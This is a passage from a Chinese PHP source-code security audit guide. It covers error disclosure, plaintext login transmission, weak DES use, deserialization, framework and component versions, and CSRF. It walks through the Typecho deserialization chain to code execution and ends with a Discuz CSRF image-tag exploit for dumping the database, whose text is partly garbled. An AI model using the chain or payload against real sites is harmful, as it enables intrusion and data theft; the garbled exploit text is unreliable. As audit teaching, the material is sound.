&emsp;&emsp;当服务器端的容错处理不当时，接收到一些畸形数据，服务器端会将一些异常调试信息返回给客户端，从而暴露很多对攻击者有用的信息。攻击者可以利用这些错误信息，制定下一步攻击方案。

### 1.12.2 审计方法

- 是否存在异常信息抛出

- 是否配置了自定义异常页面

&emsp;&emsp;对于PHP语言，PHP的错误信息如果没有关闭的话可能会抛出服务器敏感信息，如物理路径，语言框架，数据库等。一般的只需要在php.ini配置文件中display_errors = Off即可屏蔽错误信息，但也可以在PHP代码中实现。

&emsp;&emsp;关于错误信息是否开启或者关闭，我们一般只需要搜索error,waring,parse等关键词来进行审计，如下搜索到关键词后发现对错误信息进行了抛出：

```php
//禁用错误报告
error_reporting(0);
//报告运行时错误
error_reporting(E_ERROR | E_WARNING | E_PARSE);
//报告所有错误
error_reporting(E_ALL);
```

## 1.13    用户敏感信息传输

### 1.13.1 漏洞描述

&emsp;&emsp;系统未对用户的敏感信息（如密码、身份证号、电话号码、银行卡号等）进行加密、脱敏等操作，导致用户信息存在泄露的风险。

### 1.13.2 审计方法

&emsp;&emsp;用户的敏感信息传输的漏洞特征，这里主要由于用户的重要信息在传输中未对其进行加密，直接明文传输。对于用户敏感信息传输，我们可以结合前端代码和服务端代码联合审计，实际上对于用户信息未加密传输此类的审计比较简单，只要根据用户的关键业务功能的前后端代码，看是否进行了加密，一般的审计点在login,username epassword等关键词。

&emsp;&emsp;这里举例登录页面：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" 
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gbk" />
<title>用户登录</title>
<style type="text/css">
    html{font-size:12px;}
    fieldset{width:300px; margin: 0 auto;}
    legend{font-weight:bold; font-size:14px;}
    .label{float:left; width:70px; margin-left:10px;}
    .left{margin-left:80px;}
    .input{width:150px;}
    span{color: #666666;}
</style>
<script language=JavaScript>
<!--

function InputCheck(LoginForm)
{
  if (LoginForm.username.value == "")
  {
    alert("请输入用户名!");
    LoginForm.username.focus();
    return (false);
  }
  if (LoginForm.password.value == "")
  {
    alert("请输入密码!");
    LoginForm.password.focus();
    return (false);
  }
}

//-->
</script>
</head>
<body>
<div>
<fieldset>
<legend>用户登录</legend>
<form name="LoginForm" method="post" action="login.php" onSubmit="return InputCheck(this)">
<p>
<label for="username" class="label">用户名:</label>
<input id="username" name="username" type="text" class="input" />
<p/>
<p>
<label for="password" class="label">密 码:</label>
<input id="password" name="password" type="password" class="input" />
<p/>
<p>
<input type="submit" name="submit" value="  确 定  " class="left" />
</p>
</form>
</fieldset>
</div>
</body>
</html><fieldset>
<legend>用户登录</legend>
<form name="LoginForm" method="post" action="login.php" onSubmit="return InputCheck(this)">
<p>
<label for="username" class="label">用户名:</label>
<input id="username" name="username" type="text" class="input" />
<p/>
<p>
<label for="password" class="label">密 码:</label>
<input id="password" name="password" type="password" class="input" />
<p/>
<p>
<input type="submit" name="submit" value="  确 定  " class="left" />
</p>
</form>
</fieldset>
</div>
</body>
</html>
```


&emsp;&emsp;可以看到登录页面用户名密码未作任何处理，直接提交给服务端造成了用户密码明文传输的风险。

## 1.14    加密算法安全

### 1.14.1 漏洞描述

&emsp;&emsp;如果使用的加密算法不符合安全要求，则算法有被破解风险，导致敏感数据被非法解密。

### 1.14.2 审计方法

- 是否使用了弱加密算法

- 密钥是否泄露或简单易猜测

- 是否使用了不安全的伪随机数方法

&emsp;&emsp;关于加密算法安全安全的审计，这里可以使用关键词回溯方法，如搜索DES，如果程序中存在DES算法，则此为不安全的加密算法，另外项目可能会自己编写一些算法，这种情况比较复杂，我们可以搜索关键词encrypt，password，MD5等关键词，然后分析代码，如下项目中的关键代码文件：

```php
<?php
/**
* PHP版DES加解密类
* 可与java的DES(DESede/CBC/PKCS5Padding)加密方式兼容
*
*/
class CryptDes {
   var $key;
   var $iv;
   function CryptDes($key, $iv){
    $this->key = $key;
    $this->iv = $iv;
   }
   function encrypt($input){
     $size = mcrypt_get_block_size(MCRYPT_DES,MCRYPT_MODE_CBC); //3DES加密将MCRYPT_DES改为MCRYPT_3DES
     $input = $this->pkcs5_pad($input, $size); //如果采用PaddingPKCS7，请更换成PaddingPKCS7方法。
     $key = str_pad($this->key,8,'0'); //3DES加密将8改为24
     $td = mcrypt_module_open(MCRYPT_DES, '', MCRYPT_MODE_CBC, '');
     if( $this->iv == '' )
     {
       $iv = @mcrypt_create_iv (mcrypt_enc_get_iv_size($td), MCRYPT_RAND);
     }
     else
     {
       $iv = $this->iv;
     }
     @mcrypt_generic_init($td, $key, $iv);
     $data = mcrypt_generic($td, $input);
     mcrypt_generic_deinit($td);
     mcrypt_module_close($td);
     $data = base64_encode($data);//如需转换二进制可改成 bin2hex 转换
     return $data;
   }
   function decrypt($encrypted){
     $encrypted = base64_decode($encrypted); //如需转换二进制可改成 bin2hex 转换
     $key = str_pad($this->key,8,'0'); //3DES加密将8改为24
     $td = mcrypt_module_open(MCRYPT_DES,'',MCRYPT_MODE_CBC,'');//3DES加密将MCRYPT_DES改为MCRYPT_3DES
     if( $this->iv == '' )
     {
       $iv = @mcrypt_create_iv (mcrypt_enc_get_iv_size($td), MCRYPT_RAND);
     }
     else
     {
       $iv = $this->iv;
     }
     $ks = mcrypt_enc_get_key_size($td);
     @mcrypt_generic_init($td, $key, $iv);
     $decrypted = mdecrypt_generic($td, $encrypted);
     mcrypt_generic_deinit($td);
     mcrypt_module_close($td);
     $y=$this->pkcs5_unpad($decrypted);
     return $y;
   }
   function pkcs5_pad ($text, $blocksize) {
     $pad = $blocksize - (strlen($text) % $blocksize);
     return $text . str_repeat(chr($pad), $pad);
   }
   function pkcs5_unpad($text){
     $pad = ord($text{strlen($text)-1});
     if ($pad > strlen($text)) {
       return false;
     }
     if (strspn($text, chr($pad), strlen($text) - $pad) != $pad){
       return false;
     }
     return substr($text, 0, -1 * $pad);
   }
   function PaddingPKCS7($data) {
     $block_size = mcrypt_get_block_size(MCRYPT_DES, MCRYPT_MODE_CBC);//3DES加密将MCRYPT_DES改为MCRYPT_3DES
     $padding_char = $block_size - (strlen($data) % $block_size);
     $data .= str_repeat(chr($padding_char),$padding_char);
     return $data;
   }
}
$des = new CryptDes("12345678","12345678");//（秘钥向量，混淆向量）
echo $ret = $des->encrypt("1111");//加密字符串
?>
```

&emsp;&emsp;可以看到PHP用DES加密，所以存在风险。

## 1.15    反序列化

### 1.15.1 漏洞描述

&emsp;&emsp;php官方文档（http://php.net/manual/en/function.unserialize.php），从中可以得到信息unserialize函数会产生一个php值，类型可能为数组、对象等等。如果被反序列化的变量为对象，在成功重构对象后php会自动调用__wakeup成员方法(如果方法存在、解构失败会返回false）同时给出了警告，不要传递给unserialize不信任的用户输入。

&emsp;&emsp;简单理解PHP反序列化漏洞主要是执行了unserialize函数，调用某一类并执行魔术方法(magic method)，之后可以执行类中函数，产生安全问题。所以漏洞产生的前提是unserialize函数的变量可控，php文件中存在可利用的类，类中有魔术方法。

### 1.15.2 审计方法

&emsp;&emsp;查看项目中是否包含反序列化操作，一般可以通过搜索unserialize函数来确定项目中是否存在反序列化操作。

&emsp;&emsp;1）unserialize函数的变量可控

&emsp;&emsp;2）php文件中存在可利用的类，类中有魔术方法

&emsp;&emsp;这里举例Typecho install.php存在的反序列化漏洞

```php
<?php
    $config = unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
    Typecho_Cookie::delete('__typecho_config');
    $db = new Typecho_Db($config['adapter'], $config['prefix']);
    $db->addServer($config, Typecho_Db::READ | Typecho_Db::WRITE);
    Typecho_Db::set($db);
?>
```

&emsp;&emsp;程序要运行到此处需要满足两个条件

&emsp;&emsp;1、$_GET['finish'] 参数不为空

&emsp;&emsp;2、Referer 必须是本站

&emsp;&emsp;这段代码第一行先调用了Typecho_Cookie::get()方法获取$GET['\_typecho_config']，跳转进去可以看一下可以看到，如果cookie里不存在‘typecho_config’字段，则从$_POST里查找。所以在利用的时候，可以直接使用POST提交‘typecho_config’接着往下看

```php
$config =  unserialize(base64_decode(Typecho_Cookie::get('__typecho_config')));
```

&emsp;&emsp;获取到值之后，先base64解码，然后再用unserialize反序列化，赋值给$config。

&emsp;&emsp;看到这，那我们input的内容就是要构造一个‘__typecho_config’，来output我们想要的东西。继续往下寻找可利用的output的地方。在反序列化之后，取出$config['adapter']和$config['prefix']实例化了一个Typecho_Db

```php
$db = new Typecho_Db($config['adapter'], $config['prefix']);
```

&emsp;&emsp;继续跟进Typecho_Db 构造函数在Db.php的114行

```php
public function __construct($adapterName, $prefix = 'typecho_')
{
    /** 获取适配器名称 */
    $this->_adapterName = $adapterName;
    /** 数据库适配器 */
    $adapterName = 'Typecho_Db_Adapter_' . $adapterName;
    if (!call_user_func(array($adapterName, 'isAvailable'))) {
        throw new Typecho_Db_Exception("Adapter {$adapterName} is not available");
    }
    $this->_prefix = $prefix;
    /** 初始化内部变量 */
    $this->_pool = array();
    $this->_connectedPool = array();
    $this->_config = array();
    //实例化适配器对象
    $this->_adapter = new $adapterName();
}
```

&emsp;&emsp; 第120行

```php
$adapterName = 'Typecho_Db_Adapter_' . $adapterName;
```

&emsp;&emsp;此处对传入的$adapterName进行了字符串拼接。如果传入的$adapterName,是一个类，那么在将这个类进行字符串拼接的时候就会触发这个类的__toString()方法

&emsp;&emsp;那我们就来全局搜索一下，看看那些类使用了_toString()方法，可以让我们进行利用。其中有三个类有使用__toString()方法：

&emsp;&emsp;var/Typecho/Config.php

&emsp;&emsp;var/Typecho/Feed.php

&emsp;&emsp;var/Typecho/Db/Query.php

&emsp;&emsp;其中Config.php里没什么好利用的，我们再看一下Feed.php和Query.php在Query.php中存在可以触发_call()的魔术方法，全局搜索跟进_call()魔术方法之后没有可利用的点，我们直接查看Feed.phpFeed.php，在290行

```php
$content .= '<dc:creator>' . htmlspecialchars($item['author']->screenName) . '</dc:creator>' . self::EOL;
```

&emsp;&emsp;这里访问了$item['author']->screenName我们回顾一下上面说的魔术方法，其中get()这个方法在读取不可访问的数据时触发而$item由foreach ($this->_items as $item)得来，如果我们给$item['author']设置一个不可访问的属性，那就会触发该类的__get()方法

&emsp;&emsp;在文件Request.php 267行

```php
public function __get($key)
{
    return $this->get($key);
}
```

&emsp;&emsp;跟进get() 293行

```php
public function get($key, $default = NULL)
{
    switch (true) {
        case isset($this->_params[$key]):
            $value = $this->_params[$key];
            break;
        case isset(self::$_httpParams[$key]):
            $value = self::$_httpParams[$key];
            break;
        default:
            $value = $default;
            break;
    }
    $value = !is_array($value) && strlen($value) > 0 ? $value : $default;
    return $this->_applyFilter($value);
}
```

&emsp;&emsp;这一段的判断条件，都可以控制$value的值没有问题，$value的值依然在可控范围，继续跟进_applyFilter()

```php
private function _applyFilter($value)
{
    if ($this->_filter) {
        foreach ($this->_filter as $filter) {
            $value = is_array($value) ? array_map($filter, $value) :
            call_user_func($filter, $value);
        }
        $this->_filter = array();
    }
    return $value;
}
```

&emsp;&emsp;这个foreach里面判断如果$value是数组就执行array_map否则调用call_user_func，这俩函数都是执行代码的关键方法。而这里$filter和$value我们几乎都是可以间接控制的，所以就可以利用call_user_func或者array_map来执行代码，比如我们设置$filter为数组，第一个数组键值是assert，$value设置php代码，即可执行代码。

## 1.16    框架安全

### 1.16.1 漏洞描述

&emsp;&emsp;PHP项目和其他语言项目一样，也有很多的框架，主流的有thinkphp MVC，zend php,Yii等。但thinkPHP框架也存在多个安全问题，所以对于框架安全，我们直接查看框架版本号，然后找出此版本是否有漏洞即可。

### 1.16.2 审计方法

- 查看框架版本号，如thinkphp版本号

- 寻找相关资料查询框架版本是否存在漏洞

- 出具结论，有漏洞和没漏洞

&emsp;&emsp;查看项目中版本号的定义关键代码：define('THINK_VERSION', '5.0.20');

&emsp;&emsp;5.X版本查看版本号在thinkphp/base.php文件中：

```php
define('THINK_VERSION', '5.0.20');
define('THINK_START_TIME', microtime(true));
define('THINK_START_MEM', memory_get_usage());
define('EXT', '.php');
define('DS', DIRECTORY_SEPARATOR);
defined('THINK_PATH') or define('THINK_PATH', __DIR__ . DS);
define('LIB_PATH', THINK_PATH . 'library' . DS);
define('CORE_PATH', LIB_PATH . 'think' . DS);
define('TRAIT_PATH', LIB_PATH . 'traits' . DS);
```

## 1.17    第三方组件安全

### 1.17.1 漏洞描述

&emsp;&emsp;第三方组件是很多PHP项目必不可缺少的，如处理前端业务，需要jQuery第三方库，项目需要文本编辑可能需要fckeditor编辑器，但很多第三方组件也存在安全漏洞，如fckeditor编辑器存在多个上传绕过漏洞和未授权访问漏洞，对于第三方组件的安全审计，整体来讲和审计框架方法类似，也是看采用了那个版本，确定组件版本后寻找相关漏洞公告，然后给出审计结论。

### 1.17.2 审计方法

- 查看第三方组件版本号

- 寻找版本号是否存在漏洞

- 若存在进行漏洞验证

- 若不存在漏洞则第三方框架升级结论为安全（第三方组件不包含在审计项目）

&emsp;&emsp;注：jQuery版本漏洞查看地址http://research.insecurelabs.org/jquery/test/排查

&emsp;&emsp;打开jQuery.min.js文件，一般第一行就会写出当前jQuery的版本号：

```javascript
/*! jQuery v3.3.1 | (c) 
JS Foundation and other contributors | jquery.org/license */
!function(e,t){"use strict";"object"==typeof module&&"object"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error("jQuery requires a window with a document");return t(e)}:t(e)}
```

## 1.18    跨站请求伪造

### 1.18.1 漏洞描述

&emsp;&emsp;CSRF全称为Cross-site request forgery, 跨站请求伪造。说白一点就是可以劫持其他用户去进行一些请求， 而这个CSRF的危害性就看当前这个请求是进行什么操作了。

&emsp;&emsp;而CSRF是怎么一个攻击流程呢?举一个最简单的例子，比如直接请求del.php?id=1可以删除ID为1的账号，但是只有管理员有这个删除权限，而如果别人在其他某个网站页面加人再把这个页面发送给管理员，只要管理员打开这个页面，同时浏览器也会利用当前登录的这个管理员权限发出del.php?id=1这个请求，从而劫持了这个账号做- -些攻击者没有权限做的事情。

&emsp;&emsp;上面举的这个例子只是其中一个场景，更严重的像添加管理员账号、修改网站配置直接写人webshell等等都有很多案例。

### 1.18.2 审计方法

 &emsp;&emsp;CSRF主要是用于越权操作，所有漏洞自然在有权限控制的地方，像管理后台、会员中心、论坛帖子以及交易管理等，这几个场景里面，管理后台又是最高危的地方，而CSRF又很少被关注到，因此至今还有很多程序都存在这个问题。我们在挖掘CSRF的时候可以先搭建好环境，打开几个有非静态操作的页面，抓包看看有没有token,如果没有token的话，再直接请求这个页面，不带referer。 如果返回的数据还是一样的话，那说明很有可能有CSRF漏洞了，这个是一个黑盒的挖掘方法，从白盒角度来说的话，只要读代码的时候看看几个核心文件里面有没有验证token和referer相关的代码, 这里的核心文件指的是被大量文件引用的基础文件，或者直接搜"token"这个关键字也能找，如果在核心文件没有，再去看看你比较关心的功能点的代码有没有验证。

&emsp;&emsp;这里以Discuz CSRF漏洞造成的拖库危害为例，做CSRF漏洞代码审计的示例指导：

&emsp;&emsp;打开文件：admin_db.php

```php
if(!$backupdir) {
	$backupdir = random(6);
	@mkdir('./data/backup_'.$backupdir, 0777);//文件夹名是六位随机数
	C::t('common_setting')->update('backupdir',$backupdir);
    } else {//这边也没有做fromhash的验证 估计是方便AJAX请求
		DB::query('SET SQL_QUOTE_SHOW_CREATE=0', 'SILENT');
		if(!$_GET['filename'] || !preg_match('/^[\w\_]+$/', $_GET['filename'])) {
			cpmsg('database_export_filename_invalid', '', 'error');
		}
		$time = dgmdate(TIMESTAMP);
		if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') {
			$tables = arraykeys2(fetchtablelist($tablepre), 'Name');
		} elseif($_GET['type'] == 'custom') {
			$tables = array();
			if(empty($_GET['setup'])) {
				$tables = C::t('common_setting')->fetch('custombackup', true);
			} else {
				C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
				$tables = & $_GET['customtables'];
			}
			if( !is_array($tables) || empty($tables)) {
				cpmsg('database_export_custom_invalid', '', 'error');
			}
		}
		$memberexist = array_search(DB::table('common_member'), $tables);
		if($memberexist !== FALSE) {
			unset($tables[$memberexist]);
			array_unshift($tables, DB::table('common_member'));
		}
		$volume = intval($_GET['volume']) + 1;
		$idstring = '# Identify: '.base64_encode("$_G[timestamp],".$_G['setting']['version'].",{$_GET['type']},{$_GET['method']},{$volume},{$tablepre},{$dbcharset}")."\n";
		$dumpcharset = $_GET['sqlcharset'] ? $_GET['sqlcharset'] : str_replace('-', '', $_G['charset']);
		$setnames = ($_GET['sqlcharset'] && $db->version() > '4.1' && (!$_GET['sqlcompat'] || $_GET['sqlcompat'] == 'MYSQL41')) ? "SET NAMES '$dumpcharset';\n\n" : '';
		if($db->version() > '4.1') {
			if($_GET['sqlcharset']) {
				DB::query('SET NAMES %s', array($_GET['sqlcharset']));
			}
			if($_GET['sqlcompat'] == 'MYSQL40') {
				DB::query("SET SQL_MODE='MYSQL40'");
			} elseif($_GET['sqlcompat'] == 'MYSQL41') {
				DB::query("SET SQL_MODE=''");
			}
		}
		$backupfilename = './data/'.$backupdir.'/'.str_replace(array('/', '\\', '.', "'"), '', $_GET['filename']);//文件名可控
		if($_GET['usezip']) {
			require_once './source/class/class_zip.php';
		}
		if($_GET['method'] == 'multivol') {

			$sqldump = '';
			$tableid = intval($_GET['tableid']);
			$startfrom = intval($_GET['startfrom']);
			if(!$tableid && $volume == 1) {
				foreach($tables as $table) {
					$sqldump .= sqldumptablestruct($table);
				}
			}
			$complete = TRUE;
			for(; $complete && $tableid < count($tables) && strlen($sqldump) + 500 < $_GET['sizelimit'] * 1000; $tableid++) {
				$sqldump .= sqldumptable($tables[$tableid], $startfrom, strlen($sqldump));
				if($complete) {
					$startfrom = 0;
				}
			}
			$dumpfile = $backupfilename."-%s".'.sql';//$dumpifle为最终导出的文件名
			!$complete && $tableid--;
			if(trim($sqldump)) {
				$sqldump = "$idstring".
					"# <?php exit();?>\n".
					"# Discuz! Multi-Volume Data Dump Vol.$volume\n".
					"# Version: Discuz! {$_G[setting][version]}\n".
					"# Time: $time\n".
					"# Type: {$_GET['type']}\n".
					"# Table Prefix: $tablepre\n".
					"#\n".
					"# Discuz! Home: http://**.**.**.**\n".
					"# Please visit our website for newest infomation about Discuz!\n".
					"# --------------------------------------------------------\n\n\n".
					"$setnames".
					$sqldump;
				$dumpfilename = sprintf($dumpfile, $volume);
			@$fp = fopen($dumpfilename, 'wb');
				@flock($fp, 2);
				if(@!fwrite($fp, $sqldump)) {
					@fclose($fp);
					cpmsg('database_export_file_invalid', '', 'error');
				} else {
					fclose($fp);
					if($_GET['usezip'] == 2) {
						$fp = fopen($dumpfilename, "r");
						$content = @fread($fp, filesize($dumpfilename));
						fclose($fp);
						$zip = new zipfile();
						$zip->addFile($content, basename($dumpfilename));//写出
						$fp = fopen(sprintf($backupfilename."-%s".'.zip', $volume), 'w');
						if(@fwrite($fp, $zip->file()) !== FALSE) {
							@unlink($dumpfilename);
						}
						echo $dumpfilename;exit();
						fclose($fp);
					}
					unset($sqldump, $zip, $content);
```

&emsp;&emsp;由于表名和文件都是已GET方式提交，目录名由一个固定的backup加上一个六位数数字组成，备份成功后可以直接进行爆破，最终形成exp如下：

```html
< img  src="http://127.o.0.1/discuz/ admin. php?action=db&operationexort I
  setup=1 &scrolltop= &anchor=&type=cus tom&cus tomtables85B%5D={表名} &method=multivol&sizel imit=2048 &extendins=O&sql compat=&usehex=1 &usezip=Oafilename=(文件名] &exportsubmi t=%CC%E1 %BD%BB22">
```

